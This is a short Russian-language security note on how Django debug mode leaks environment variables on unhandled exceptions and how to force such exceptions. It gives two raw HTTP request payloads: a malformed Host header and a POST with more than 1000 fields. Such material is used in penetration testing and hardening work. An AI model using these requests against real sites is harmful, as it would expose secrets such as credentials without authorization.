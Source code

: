 # Security

## Debug mode

Source: [https://t.me/webpwn/337](https://t.me/webpwn/337)

Приложения на Django в debug режиме раскрывают содержимое environment переменных при необработанном исключении.

Несмотря на наличие автоматического сокрытия значений, для переменных соответствующих регулярному выражению `API|TOKEN|KEY|SECRET|PASS|SIGNATURE`, часто это приводит к утечкам через нестандартные имена переменных.

Если обнаружить debug режим можно просто обратившись к несуществующей странице, то вызвать exception иногда бывает проблематично. Даже с раскрытием существующих в приложении путей через 404-ую страницу.

Но существуют и более универсальные подходы.

**Пример 1**

Нестандартные символы в Host. Правда с учетом облачных сервисов этот вариант срабатывает редко.

```
GET / HTTP/1.1
Host: '"

Invalid HTTP_HOST header: '\'"'. The domain name provided is not valid according to RFC 1034/1035.
```

**Пример 2**

Использование большего количества переменных в POST, чем указано в настройке DATA\_UPLOAD\_MAX\_NUMBER\_FIELDS (по умолчанию 1000).

Для эксплуатации необходимо найти любой роут, поддерживающий POST запросы, и в редких случаях получить валидное значение CSRF токена на странице.

```
POST / HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Cookie: csrftoken=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa;
Content-Length: 3093
 
csrfmiddlewaretoken=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&x=&x=&x=&x=[..1000 раз..]&x=&x=&x=
```
